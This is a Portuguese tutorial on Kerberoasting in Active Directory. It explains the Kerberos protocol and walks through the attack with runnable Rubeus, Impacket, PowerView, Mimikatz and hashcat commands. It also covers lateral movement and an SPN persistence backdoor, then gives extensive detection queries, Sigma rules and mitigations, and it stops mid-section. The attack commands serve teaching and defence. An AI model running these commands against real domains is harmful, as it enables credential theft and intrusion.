

# 1. Introdução ao Kerberoasting

O Kerberoasting é uma técnica de ataque pós-exploração amplamente utilizada em ambientes Windows. Esta técnica permite que um atacante com credenciais válidas de domínio (mesmo com privilégios mínimos) solicite tickets de serviço Kerberos (TGS - Ticket Granting Service) para contas com Service Principal Names (SPNs) registrados, extraia esses tickets e realize ataques de força bruta offline para recuperar senhas em texto claro.

O ataque explora uma característica fundamental do protocolo Kerberos: tickets TGS são criptografados usando o hash da senha da conta de serviço associada ao SPN. Como esses tickets podem ser solicitados por qualquer usuário autenticado do domínio e não requerem privilégios administrativos, um atacante pode coletar esses tickets criptografados e submetê-los a ataques de força bruta ou dicionário offline, sem gerar alertas significativos no ambiente.

# 2. Fundamentos do protocolo Kerberos

Para compreender completamente o Kerberoasting, é essencial entender o protocolo Kerberos em ambientes Active Directory.

## 2.1 Arquitetura Kerberos

O Kerberos é um protocolo de autenticação de rede que utiliza criptografia de chave simétrica e um sistema de tickets baseado em tempo.

Componentes principais:

- **Key Distribution Center (KDC)**: Serviço executado no Domain Controller que fornece tickets.
- **Authentication Service (AS)**: Componente do KDC responsável pela autenticação inicial.
- **Ticket Granting Service (TGS)**: Componente do KDC que emite tickets de serviço.
- **Principal**: Entidade (usuário ou serviço) no domínio.
- **Service Principal Name (SPN)**: Identificador único de uma instância de serviço.

## 2.2 Fluxo de autenticação Kerberos

O processo normal de autenticação Kerberos ocorre em várias etapas:

**Etapa 1: AS-REQ (Authentication Service Request)**
```
Cliente → KDC (AS)
- Usuário solicita TGT (Ticket Granting Ticket)
- Envia: nome do usuário, timestamp criptografado
```

**Etapa 2: AS-REP (Authentication Service Response)**
```
KDC (AS) → Cliente
- Retorna TGT criptografado com hash KRBTGT
- Session key criptografada com hash do usuário
```

**Etapa 3: TGS-REQ (Ticket Granting Service Request)**
```
Cliente → KDC (TGS)
- Apresenta TGT válido
- Solicita ticket para SPN específico
- Envia authenticator criptografado com session key
```

**Etapa 4: TGS-REP (Ticket Granting Service Response)**
```
KDC (TGS) → Cliente
- Retorna Service Ticket (ST/TGS)
- ST criptografado com hash da conta de serviço
- Nova session key para comunicação com serviço
```

**Etapa 5: AP-REQ (Application Request)**
```
Cliente → Servidor de Aplicação
- Apresenta Service Ticket
- Authenticator criptografado com session key
```

## 2.3 Service Principal Name (SPN)

SPNs são identificadores únicos que associam uma instância de serviço a uma conta de login do Active Directory.

Formato típico:

```txt
serviceclass/host:port/servicename
```

Exemplos comuns:
```txt
MSSQLSvc/sql01.empresa.local:1433
HTTP/webapp.empresa.local
CIFS/fileserver.empresa.local
HOST/server01.empresa.local
```

Exemplo do meu lab:
```powershell
SPN
---
CIFS/thewall.north.sevenkingdoms.local
HTTP/thewall.north.sevenkingdoms.local
exchangeAB/WINTERFELL
exchangeAB/winterfell.north.sevenkingdoms.local
ldap/winterfell.north.sevenkingdoms.local/DomainDnsZones.north.sevenkingdoms.local
ldap/winterfell.north.sevenkingdoms.local/ForestDnsZones.sevenkingdoms.local
TERMSRV/WINTERFELL
TERMSRV/winterfell.north.sevenkingdoms.local
DNS/winterfell.north.sevenkingdoms.local
GC/winterfell.north.sevenkingdoms.local/sevenkingdoms.local
RestrictedKrbHost/winterfell.north.sevenkingdoms.local
RestrictedKrbHost/WINTERFELL
RPC/05d4efc4-9bae-4beb-b525-719f1bc33ebf._msdcs.sevenkingdoms.local
HOST/WINTERFELL/NORTH
HOST/winterfell.north.sevenkingdoms.local/NORTH
HOST/WINTERFELL
HOST/winterfell.north.sevenkingdoms.local
HOST/winterfell.north.sevenkingdoms.local/north.sevenkingdoms.local
ldap/WINTERFELL/NORTH
ldap/05d4efc4-9bae-4beb-b525-719f1bc33ebf._msdcs.sevenkingdoms.local
ldap/winterfell.north.sevenkingdoms.local/NORTH
ldap/WINTERFELL
ldap/winterfell.north.sevenkingdoms.local
ldap/winterfell.north.sevenkingdoms.local/north.sevenkingdoms.local
HTTP/winterfell.north.sevenkingdoms.local
TERMSRV/CASTELBLACK
TERMSRV/castelblack.north.sevenkingdoms.local
RestrictedKrbHost/CASTELBLACK
HOST/CASTELBLACK
RestrictedKrbHost/castelblack.north.sevenkingdoms.local
HOST/castelblack.north.sevenkingdoms.local
HTTP/eyrie.north.sevenkingdoms.local
kadmin/changepw
MSSQLSvc/castelblack.north.sevenkingdoms.local
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433
```

SPNs podem ser registrados em:
- **Contas de usuário**: Contas de domínio regulares usadas para executar serviços.
- **Contas de computador**: Terminam com $ e geralmente têm senhas complexas de 120+ caracteres.
- **Managed Service Accounts (MSA)**: Contas gerenciadas com senhas de 240 caracteres rotacionadas automaticamente.
- **Group Managed Service Accounts (gMSA)**: Similar a MSA mas suporta múltiplos hosts.

# 3. Mecânica técnica do Kerberoasting

## 3.1 Exploração

A exploração no Kerberoasting reside em três características do protocolo Kerberos:

1. **Qualquer usuário autenticado pode solicitar tickets TGS** para qualquer SPN registrado no domínio, sem necessidade de privilégios elevados.
2. **Tickets TGS são criptografados com o hash NTLM** (ou hash AES) da conta de serviço associada ao SPN.
3. **Não há validação imediata** de que o solicitante realmente precisa acessar o serviço.

## 3.2 Algoritmos de criptografia

Os tickets TGS podem ser criptografados com diferentes algoritmos, dependendo da configuração do domínio.

Os principais são:

**RC4-HMAC (0x17)**
- Mais vulnerável a ataques de força bruta
- Comum em ambientes legados ou mal configurados
- Formato do hash: `$krb5tgs$23$...`

**AES128-CTS-HMAC-SHA1-96 (0x11)**
- Mais seguro que RC4
- Formato do hash: `$krb5tgs$17$...`

**AES256-CTS-HMAC-SHA1-96 (0x12)**
- Algoritmo mais seguro suportado
- Significativamente mais resistente a cracking
- Formato do hash: `$krb5tgs$18$...`

Você pode encontrar todas as informações nas referências.

## 3.3 Processo de ataque detalhado

Exemplo prático:

<figure style="text-align: center;">
  
  <figcaption>
    <i><strong>Figura 1.</strong> Uso de Impacket para enumeração.</i>
  </figcaption>
</figure>

### 3.3.1. Fase 1: Enumeração de SPNs

O atacante primeiro identifica contas com SPNs registrados usando LDAP queries:

```ldap
(&(objectClass=user)(servicePrincipalName=*))
```

Atributos relevantes extraídos:
- `servicePrincipalName`: Lista de SPNs
- `sAMAccountName`: Nome da conta
- `distinguishedName`: DN completo
- `pwdLastSet`: Data da última mudança de senha
- `lastLogon`: Último logon registrado
- `memberOf`: Grupos que a conta pertence


### 3.3.2. Fase 2: Solicitação de Tickets TGS

O atacante utiliza credenciais válidas (mesmo de usuário com baixo privilégio) para solicitar tickets TGS via:

- **Windows API**: Usando funções nativas como `LsaCallAuthenticationPackage`
- **Kerberos Protocol**: Enviando TGS-REQ manualmente

### 3.3.3. Fase 3: Extração do Ticket

Existe uma seção de encryption que contém dados criptografados com o hash da senha da conta de serviço, incluindo:
- Session key para comunicação com o serviço
- Client principal name
- Timestamps de validade
- Flags de autorização

### 3.3.4. Fase 4: Extração do Hash

Ferramentas como Rubeus, Impacket ou Netexec extraem a porção criptografada do ticket e formatam em hash compatível com ferramentas de cracking:

Formato Hashcat/John:

```bash
$krb5tgs$23$*user$realm$service/host*$hash_data

Exemplo:
$krb5tgs$23$*jon.snow$NORTH.SEVENKINGDOMS.LOCAL$north.sevenkingdoms.local\jon.snow*$2fe1945f7dc8c6b970459f92c21a621d$cc8d8ba4853ca5f658027e99...
```

Componentes:
- `$krb5tgs$`: Identificador do tipo de hash
- `23`: Tipo de encryption (RC4-HMAC)
- `user`: sAMAccountName da conta de serviço
- `realm`: Domínio
- `service/host`: SPN
- `hash_data`: Dados criptografados em hexadecimal

### 3.3.5. Fase 5: Cracking offline

O atacante usa ferramentas de cracking de senha:

**Hashcat:**
```bash
hashcat -m 13100 -a 0 hashes.txt wordlist.txt # Para RC4
hashcat -m 19600 hashes.txt wordlist.txt  # Para AES128
hashcat -m 19700 hashes.txt wordlist.txt  # Para AES256
```

Fatores que afetam o tempo de cracking:
- Complexidade da senha
- Algoritmo de criptografia (RC4 vs AES)
- Hardware disponível (GPU acelera significativamente)
- Tamanho da wordlist

# 4. Ferramentas e técnicas de exploração

## 4.1 PowerShell nativo

**Invoke-Kerberoast (PowerView):**
```powershell
Import-Module .\PowerView.ps1
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

Parâmetros úteis:
- `-Identity`: Específica conta de usuário
- `-Domain`: Domínio alvo
- `-Server`: DC específico
- `-OutputFormat`: John ou Hashcat

**Script PowerShell Manual:**
```powershell
# Enumerar SPNs
$search = New-Object DirectoryServices.DirectorySearcher
$search.Filter = "(&(objectClass=user)(servicePrincipalName=*))"
$results = $search.FindAll()

# Solicitar tickets
foreach ($result in $results) {
    $spn = $result.Properties["serviceprincipalname"]
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $spn
}

# Extrair tickets
klist
```

## 4.2 Rubeus

Ferramenta C# extremamente popular para manipulação de Kerberos:

**Kerberoast básico:**
```cmd
Rubeus.exe kerberoast
```

**Opções avançadas:**
```cmd
# Solicitar tickets apenas para usuários específicos
Rubeus.exe kerberoast /user:svc-sql

# Filtrar por grupo
Rubeus.exe kerberoast /ldapfilter:"(memberof=CN=Domain Admins,CN=Users,DC=empresa,DC=local)"

# Especificar algoritmo de encryption
Rubeus.exe kerberoast /tgtdeleg /rc4

# Incluir AES tickets
Rubeus.exe kerberoast /aes

# Output em formato específico
Rubeus.exe kerberoast /outfile:hashes.txt /format:hashcat

# Usar credenciais alternativas
Rubeus.exe kerberoast /creduser:DOMAIN\user /credpassword:pass

# Filtrar por data de mudança de senha
Rubeus.exe kerberoast /pwdsetafter:2023-01-01
```

**Técnica de downgrade para RC4:**
```cmd
Rubeus.exe kerberoast /tgtdeleg
```

Este comando força o uso de RC4 através de uma técnica que envolve solicitar um TGT delegado, útil quando o domínio suporta apenas AES mas você deseja tickets RC4 mais fáceis de quebrar.

## 4.3 Impacket (GetUserSPNs.py)

Ferramenta Python ideal para ataques externos:

**Uso básico:**
```bash
python GetUserSPNs.py -request -dc-ip 10.10.10.10 DOMAIN/user:password
```

**Opções detalhadas:**
```bash
# Output em formato hashcat
python GetUserSPNs.py -request -outputfile hashes.txt DOMAIN/user:password

# Usar hash NTLM para autenticação (Pass-the-Hash)
python GetUserSPNs.py -request -hashes :NTHASH DOMAIN/user

# Usar ticket Kerberos (Pass-the-Ticket)
export KRB5CCNAME=/path/to/ticket.ccache
python GetUserSPNs.py -request -k -no-pass DOMAIN/user

# Solicitar apenas SPNs específicos
python GetUserSPNs.py -request -service-name MSSQLSvc DOMAIN/user:password

# Enumerar sem solicitar tickets
python GetUserSPNs.py DOMAIN/user:password

# Especificar formato de output
python GetUserSPNs.py -request -format hashcat DOMAIN/user:password
```

## 4.4 Mimikatz

Ferramenta clássica de pós-exploração:

```cmd
# Listar tickets disponíveis
kerberos::list

# Solicitar ticket para SPN específico
kerberos::ask /target:MSSQLSvc/sql01.empresa.local

# Exportar todos os tickets
kerberos::list /export

# Extrair tickets da memória
sekurlsa::tickets /export
```

## 4.5 Ferramentas de Detecção e Enumeração

**BloodHound:**
```cypher
// Encontrar contas com SPNs
MATCH (u:User) WHERE u.hasspn=true RETURN u

// Contas Kerberoastable com caminho para DA
MATCH (u:User {hasspn:true}), (g:Group {name:"DOMAIN ADMINS@EMPRESA.LOCAL"}), 
p=shortestPath((u)-[*1..]->(g)) RETURN p
```

**ADRecon:**
```powershell
.\ADRecon.ps1 -GenExcel C:\Temp\Report.xlsx
# Verifica seção "Service Principal Names"
```

**crackmapexec:**
```bash
crackmapexec ldap 10.10.10.10 -u user -p pass --kerberoasting output.txt
```

---

# 5. Vetores de Ataque e Cenários

## 5.1 Pré-requisitos para o Ataque

**Mínimo necessário:**
- Credenciais válidas de domínio (qualquer nível de privilégio)
- Acesso à rede onde o DC é alcançável
- Porta 88/TCP (Kerberos) acessível ao DC
- Porta 389/TCP ou 636/TCP (LDAP) para enumeração

**Cenários de acesso inicial:**
- Phishing bem-sucedido com captura de credenciais
- Exploração de vulnerabilidade em aplicação web com autenticação AD
- Credenciais padrão ou fracas descobertas
- Password spraying bem-sucedido
- Acesso físico a workstation de domínio
- Relay attacks (SMB, LDAP) com obtenção de sessão

## 5.2 Alvos Prioritários

**Contas de alto valor:**

1. **Contas de serviço SQL Server (MSSQLSvc)**
   - Frequentemente executadas com privilégios elevados
   - Muitas vezes membros de Domain Admins ou grupos privilegiados
   - Senhas raramente modificadas

2. **Contas de serviço IIS/HTTP**
   - Podem ter acesso a sistemas sensíveis
   - Frequentemente usadas para application pools

3. **Contas de serviço de backup**
   - Geralmente têm privilégios de leitura em todo o domínio
   - Podem ter SeBackupPrivilege

4. **Contas de serviço de virtualização**
   - VMware vCenter, Hyper-V services
   - Acesso a infraestrutura crítica

5. **Contas de ferramentas de gerenciamento**
   - SCCM, SCOM, monitoring tools
   - Frequentemente over-privileged

**Indicadores de contas valiosas:**
```powershell
# Contas de serviço em grupos privilegiados
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf | 
Where-Object {$_.MemberOf -match "Admin"}

# Contas com senhas antigas
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties PasswordLastSet |
Where-Object {$_.PasswordLastSet -lt (Get-Date).AddYears(-1)}
```

## 5.3 Cenário Completo de Ataque

**Fase 1: Reconhecimento**
```bash
# Enumerar domínio
nmap -p 88,389,636 10.10.10.10

# Validar credenciais
crackmapexec smb 10.10.10.10 -u user -p password

# Enumerar SPNs
GetUserSPNs.py EMPRESA/user:password -dc-ip 10.10.10.10
```

**Fase 2: Kerberoasting**
```bash
# Solicitar todos os tickets TGS
GetUserSPNs.py -request -outputfile kerberoast_hashes.txt EMPRESA/user:password

# Filtrar por contas interessantes
cat kerberoast_hashes.txt | grep -i "svc-sql\|svc-admin"
```

**Fase 3: Cracking**
```bash
# Identificar tipo de hash
hashcat --identify kerberoast_hashes.txt

# Cracking com wordlist
hashcat -m 13100 -a 0 kerberoast_hashes.txt rockyou.txt -O

# Cracking com regras
hashcat -m 13100 -a 0 kerberoast_hashes.txt rockyou.txt -r best64.rule

# Ataque híbrido
hashcat -m 13100 -a 6 kerberoast_hashes.txt rockyou.txt ?d?d?d?d

# Verificar status
hashcat --status --session kerberoast

# Recuperar senhas crackeadas
hashcat -m 13100 kerberoast_hashes.txt --show
```

**Fase 4: Pós-exploração**
```bash
# Verificar privilégios da conta comprometida
crackmapexec smb 10.10.10.0/24 -u svc-sql -p 'Senha!Recuperada123'

# Enumerar permissões
net rpc group members "Domain Admins" -U "svc-sql%Senha!Recuperada123" -S 10.10.10.10

# Lateral movement
evil-winrm -i 10.10.10.20 -u svc-sql -p 'Senha!Recuperada123'
```

---

# 6. Detecção e Identificação

## 6.1 Logs do Windows

**Event IDs Relevantes:**

**Event ID 4769 - Kerberos Service Ticket Request**
- Gerado quando TGS ticket é solicitado
- Campos importantes:
  - `Service Name`: SPN solicitado
  - `Account Name`: Quem solicitou
  - `Client Address`: IP do solicitante
  - `Ticket Encryption Type`: 0x17 (RC4), 0x12 (AES256)
  - `Failure Code`: 0x0 (sucesso)

**Padrões suspeitos no Event ID 4769:**
- Múltiplas solicitações de diferentes SPNs do mesmo usuário em curto período
- Solicitações de RC4 (0x17) quando o domínio suporta AES
- Solicitações para SPNs raramente acessados
- Volume incomum de solicitações TGS

**Event ID 4768 - Kerberos TGT Request**
- Pode indicar autenticação inicial antes do Kerberoasting

**Event ID 4771 - Kerberos Pre-authentication Failed**
- Pode preceder Kerberoasting em casos de credential spraying

## 6.2 Queries de Detecção

**Splunk:**
```spl
index=windows EventCode=4769 
| stats count dc(Service_Name) as unique_services by Account_Name 
| where unique_services > 10 AND count > 20
| sort - count
```

```spl
index=windows EventCode=4769 Ticket_Encryption_Type=0x17
| where NOT like(Service_Name, "%$")
| stats count by Account_Name, Service_Name, src_ip
| where count > 5
```

**Azure Sentinel KQL:**
```kusto
SecurityEvent
| where EventID == 4769
| where ServiceName !endswith "$"
| summarize RequestCount = count(), UniqueServices = dcount(ServiceName) by Account, ClientAddress
| where RequestCount > 20 or UniqueServices > 10
| order by RequestCount desc
```

**Microsoft Defender for Identity:**
- Gera alerta "Suspected Kerberos SPN exposure" automaticamente
- Detecta padrões anômalos de solicitações TGS

## 6.3 Indicadores de Comportamento

**Anômalo:**
- Usuário solicita 10+ SPNs diferentes em 5 minutos
- Solicitações TGS para contas administrativas não usadas normalmente
- Requisições de tickets RC4 em domínio configurado para AES-only
- Solicitações originando de IPs/hosts incomuns
- Padrão de enumeração (sequential SPN requests)

**Normal:**
- Aplicações legítimas solicitando SPNs específicos regularmente
- Ferramentas de monitoramento consultando múltiplos serviços
- Service accounts acessando seus próprios SPNs

## 6.4 Detecção Baseada em Rede

**Wireshark/tshark filters:**
```
kerberos.msg_type == 12  # TGS-REQ
kerberos.msg_type == 13  # TGS-REP
```

**Padrões suspeitos:**
- Múltiplos TGS-REQ de mesmo host em rajada
- TGS-REQ para SPNs incomuns
- Requests com downgrade para RC4

**Zeek/Bro logs:**
```zeek
# Kerberos.log analysis
cat kerberos.log | zeek-cut ts id.orig_h id.resp_h request_type client service
```

## 6.5 Honeypots e Deception

**Honey Service Accounts:**
- Criar contas de serviço fake com SPNs registrados
- Usar senhas complexas impossíveis de quebrar
- Monitorar qualquer solicitação TGS para esses SPNs
- Não usar essas contas para nada legítimo

Exemplo de criação:
```powershell
New-ADUser -Name "svc-honeypot-sql" -SamAccountName "svc-honeypot-sql" `
  -UserPrincipalName "svc-honeypot-sql@empresa.local" `
  -AccountPassword (ConvertTo-SecureString "SuperC0mpl3x!P@ssw0rd#2024!xyz" -AsPlainText -Force) `
  -Enabled $true `
  -Description "Honeypot - DO NOT USE"

Set-ADUser -Identity "svc-honeypot-sql" -ServicePrincipalNames @{Add="MSSQLSvc/fake-sql.empresa.local:1433"}

# Configurar alertas para qualquer Event ID 4769 com Service_Name="MSSQLSvc/fake-sql.empresa.local:1433"
```

## 6.6 Ferramentas de Detecção

**Sigma Rules:**
```yaml
title: Kerberoasting Activity
status: stable
description: Detects potential Kerberoasting activity
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4769
    TicketEncryptionType: '0x17'
    ServiceName|endswith:
      - '$'
  filter:
    ServiceName|startswith: 'krbtgt'
  condition: selection and not filter
  timeframe: 5m
  count:
    - ServiceName
    - '> 10'
```

**PowerShell Script de Auditoria:**
```powershell
# Detectar múltiplas solicitações TGS
$Events = Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769; StartTime=(Get-Date).AddHours(-1)} 
$Suspicious = $Events | Group-Object {$_.Properties[0].Value} | 
  Where-Object {$_.Count -gt 10} | 
  Select-Object Name, Count

if ($Suspicious) {
    Send-MailMessage -To "soc@empresa.local" -Subject "Possible Kerberoasting" -Body ($Suspicious | Out-String)
}
```

---

# 7. Mitigação e Defesa

## 7.1 Políticas de Senha para Service Accounts

**Implementar senhas longas e complexas:**
- Mínimo de 25 caracteres para contas de usuário com SPNs
- Idealmente 30+ caracteres com alta entropia
- Usar geradores de senha criptograficamente seguros

```powershell
# Gerar senha complexa
Add-Type -AssemblyName System.Web
$Password = [System.Web.Security.Membership]::GeneratePassword(32,10)
```

**Política de Fine-Grained Password Policy (FGPP):**
```powershell
New-ADFineGrainedPasswordPolicy -Name "ServiceAccountPolicy" `
  -Precedence 10 `
  -MinPasswordLength 30 `
  -PasswordHistoryCount 24 `
  -MaxPasswordAge 90.00:00:00 `
  -MinPasswordAge 1.00:00:00 `
  -LockoutThreshold 5 `
  -LockoutObservationWindow 00:30:00 `
  -LockoutDuration 00:30:00

# Aplicar a contas com SPNs
Get-ADUser -Filter {ServicePrincipalName -like "*"} | ForEach-Object {
    Add-ADFineGrainedPasswordPolicySubject -Identity "ServiceAccountPolicy" -Subjects $_
}
```

## 7.2 Managed Service Accounts (MSA) e Group MSA (gMSA)

**Migrar para gMSA quando possível:**

Vantagens:
- Senhas de 240 caracteres gerenciadas automaticamente
- Rotação automática de senha (padrão: 30 dias)
- Não podem ser usadas para login interativo
- Eliminam senhas estáticas

```powershell
# Criar KDS Root Key (necessário uma vez no domínio)
Add-KdsRootKey -EffectiveTime ((Get-Date).AddHours(-10))

# Criar gMSA
New-ADServiceAccount -Name "gMSA-SQL01" `
  -DNSHostName "gMSA-SQL01.empresa.local" `
  -PrincipalsAllowedToRetrieveManagedPassword "SQL-Servers-Group" `
  -ServicePrincipalNames "MSSQLSvc/sql01.empresa.local:1433"

# Instalar gMSA em servidor
Install-ADServiceAccount -Identity "gMSA-SQL01"

# Testar
Test-ADServiceAccount -Identity "gMSA-SQL01"
```

**Limitações de gMSA:**
- Nem todas as aplicações suportam
- Requer Windows Server 2012+
- Não funciona para serviços em clusters de failover (usar gMSA com clustering support no Server 2012 R2+)

## 7.3 Desabilitar RC4 e Forçar AES

RC4 é significativamente mais vulnerável que AES. Forçar AES aumenta dramaticamente a dificuldade de cracking.

**Group Policy: Disable RC4**
```
Computer Configuration → Policies → Windows Settings → Security Settings → Local Policies → Security Options
→ Network security: Configure encryption types allowed for Kerberos
→ Habilitar apenas: AES128_HMAC_SHA1, AES256_HMAC_SHA1
```

**Via PowerShell:**
```powershell
Set-ADUser -Identity "svc-sql" -KerberosEncryptionType AES128,AES256

# Em massa
Get-ADUser -Filter {ServicePrincipalName -like "*"} | 
  Set-ADUser -KerberosEncryptionType AES128,AES256
```

**Verificar configuração:**
```powershell
Get-ADUser -Identity "svc-sql" -Properties msDS-SupportedEncryptionTypes

# Valores:
# 0x01: DES_CBC_CRC
# 0x02: DES_CBC_MD5
# 0x04: RC4_HMAC_MD5
# 0x08: AES128_CTS_HMAC_SHA1_96
# 0x10: AES256_CTS_HMAC_SHA1_96
```

**Considerações:**
- Testar antes de implementar em produção
- Alguns sistemas legados podem ter problemas com AES-only
- Garantir que DCs suportam AES (Server 2008+)

## 7.4 Auditoria e Monitoramento

**Habilitar Advanced Audit Policy:**
```powershell
# Via GPO ou auditpol
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable
```

**Group Policy Path:**
```
Computer Configuration → Policies → Windows Settings → Security Settings → Advanced Audit Policy Configuration
→ Account Logon → Audit Kerberos Service Ticket Operations: Success, Failure
→ Account Logon → Audit Kerberos Authentication Service: Success, Failure
```

**Configurar log retention:**
```powershell
# Aumentar tamanho do Security log
wevtutil sl Security /ms:4194304000  # 4GB

# Configurar forwarding para SIEM
wecutil cs /c:subscription.xml
```

**Alertas automatizados:**
```powershell
# Scheduled Task para verificar Event ID 4769
$Action = New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument '-File C:\Scripts\Check-Kerberoast.ps1'
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 15)
Register-ScheduledTask -TaskName "Kerberoast Detection" -Action $Action -Trigger $Trigger
```

## 7.5 Least Privilege para Service Accounts

**Princípios:**
- Service accounts devem ter apenas permissões necessárias
- NUNCA adicionar service accounts a Domain Admins
- Usar delegação de privilégios específicos

**Remover privilégios desnecessários:**
```powershell
# Identificar service accounts em grupos privilegiados
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf | 
  Where-Object {$_.MemberOf -match "Domain Admins|Enterprise Admins|Schema Admins"} |
  Select-Object Name, SamAccountName, MemberOf

# Remover de grupos
Remove-ADGroupMember -Identity "Domain Admins" -Members "svc-sql" -Confirm:$false
```

**Implementar Role-Based Access Control (RBAC):**
```powershell
# Criar grupo específico para service account
New-ADGroup -Name "SQL-Service-Accounts-Permissions" -GroupScope DomainLocal

# Delegar permissões específicas apenas onde necessário
# Usar dsacls, Set-Acl, ou GUI do AD para configurar ACLs específicas
```

## 7.6 Remover SPNs Desnecessários

**Auditar SPNs:**
```powershell
# Listar todos os SPNs
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName |
  Select-Object Name, @{N='SPNs';E={$_.ServicePrincipalName -join '; '}}

# SPNs duplicados (problemático)
Get-ADObject -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName |
  ForEach-Object {$_.ServicePrincipalName} | Group-Object | Where-Object {$_.Count -gt 1}
```

**Remover SPNs não utilizados:**
```powershell
# Remover SPN específico
Set-ADUser -Identity "old-service-account" -ServicePrincipalNames @{Remove="HTTP/oldapp.empresa.local"}

# Limpar todos os SPNs de conta desabilitada
$user = Get-ADUser "old-svc" -Properties ServicePrincipalName
Set-ADUser $user -ServicePrincipalNames @{Remove=$user.ServicePrincipalName}
```

## 7.7 Segmentação de Rede

**Implementar micro-segmentação:**
- Restringir acesso ao DC (porta 88/TCP) apenas para hosts necessários
- Usar Windows Firewall com regras específicas
- Implementar 802.1X para controle de acesso à rede

**Exemplo de regra de firewall:**
```powershell
# Permitir Kerberos apenas de subnets autorizadas
New-NetFirewallRule -DisplayName "Kerberos - Restrict to Authorized Subnets" `
  -Direction Inbound -Protocol TCP -LocalPort 88 `
  -RemoteAddress 10.10.10.0/24,10.10.20.0/24 -Action Allow

New-NetFirewallRule -DisplayName "Kerberos - Block Others" `
  -Direction Inbound -Protocol TCP -LocalPort 88 `
  -Action Block -Priority 1
```

## 7.8 Hardening de Active Directory

**Implementar Microsoft LAPS:**
- Gerencia senhas de administrador local
- Previne movimentação lateral
```powershell
Install-Module -Name AdmPwd.PS
Import-Module AdmPwd.PS
Update-AdmPwdADSchema
```

**Protected Users Security Group:**
- Membros não podem usar RC4, DES, NTLM
- Tickets TGT não renováveis além de 4 horas
- Não cacheável via Credential Guard

```powershell
Add-ADGroupMember -Identity "Protected Users" -Members "admin-account"
```

**Tiering Model (Red Forest):**
- Tier 0: Domain Controllers, Admin accounts
- Tier 1: Servers
- Tier 2: Workstations
- Previne escalação de privilégios entre tiers

## 7.9 Rotação Regular de Senhas

**Implementar rotação automática:**
```powershell
# Script de rotação programada
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*" -and Enabled -eq $true}

foreach ($account in $ServiceAccounts) {
    $LastSet = $account.PasswordLastSet
    $DaysSinceChange = (New-TimeSpan -Start $LastSet -End (Get-Date)).Days
    
    if ($DaysSinceChange -gt 90) {
        # Gerar nova senha
        $NewPassword = [System.Web.Security.Membership]::GeneratePassword(32,10)
        Set-ADAccountPassword -Identity $account -NewPassword (ConvertTo-SecureString $NewPassword -AsPlainText -Force) -Reset
        
        # Armazenar em cofre de senhas (ex: CyberArk, Azure Key Vault)
        # Store-Password -Account $account.SamAccountName -Password $NewPassword
        
        # Notificar responsáveis
        Send-MailMessage -To "admin@empresa.local" -Subject "Password rotated for $($account.Name)" -Body "Update service configuration"
    }
}
```

## 7.10 Checklist de Mitigação

**Curto Prazo (0-30 dias):**
- [ ] Auditar todas as contas com SPNs
- [ ] Identificar service accounts em grupos privilegiados
- [ ] Implementar senhas complexas (25+ caracteres) em todas as service accounts
- [ ] Habilitar auditoria de Kerberos (Event ID 4769)
- [ ] Configurar alertas para atividades suspeitas
- [ ] Criar honey service accounts

**Médio Prazo (30-90 dias):**
- [ ] Migrar service accounts elegíveis para gMSA
- [ ] Desabilitar RC4 em todo o domínio (após testes)
- [ ] Forçar AES256 para todas as contas com SPNs
- [ ] Implementar Fine-Grained Password Policies
- [ ] Remover privilégios excessivos de service accounts
- [ ] Implementar rotação regular de senhas

**Longo Prazo (90+ dias):**
- [ ] Implementar tiering model completo
- [ ] Migrar para arquitetura Red Forest se necessário
- [ ] Implementar PAM (Privileged Access Management)
- [ ] Integrar com SIEM/SOAR para resposta automatizada
- [ ] Treinar equipe de SOC em detecção de Kerberoasting
- [ ] Realizar purple team exercises regularmente

---

# 8. Técnicas Avançadas de Ataque

## 8.1 Targeted Kerberoasting

Em vez de solicitar todos os SPNs, o atacante identifica alvos de alto valor:

```powershell
# Encontrar service accounts que são Domain Admins
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf |
  Where-Object {$_.MemberOf -match "Domain Admins"} |
  ForEach-Object {
    Rubeus.exe kerberoast /user:$_.SamAccountName
  }
```

## 8.2 Kerberoasting sem Privilegios de Rede

**Roasting via Compromised Web Application:**
- Aplicação web com autenticação AD pode ser usada
- Explorar SSRF ou RCE para executar comandos
- Exfiltrar tickets via canais existentes

```csharp
// C# code injection
using System.IdentityModel.Tokens;
var token = new KerberosRequestorSecurityToken("MSSQLSvc/sql01.empresa.local");
```

## 8.3 Kerberoasting em Ambientes Cloud

**Azure AD Connect Sync Accounts:**
- Contas de sincronização podem ter SPNs
- Frequentemente têm privilégios elevados

**Hybrid Environments:**
```powershell
# Enumerar SPNs via Azure AD PowerShell
Connect-AzureAD
Get-AzureADUser -All $true | Where-Object {$_.ServicePrincipalNames -ne $null}
```

## 8.4 AS-REP Roasting Combinado

Combinar com AS-REP Roasting para maximizar coleta de hashes:

```bash
# GetNPUsers.py para contas sem pré-autenticação
python GetNPUsers.py DOMAIN/ -usersfile users.txt -dc-ip 10.10.10.10

# Kerberoasting
python GetUserSPNs.py -request DOMAIN/user:pass -dc-ip 10.10.10.10
```

## 8.5 Persistence via Service Account Compromise

Após comprometer service account:

**Criar SPN Backdoor:**
```powershell
# Adicionar SPN a conta controlada
Set-ADUser -Identity "compromised-user" -ServicePrincipalNames @{Add="HTTP/backdoor.empresa.local"}

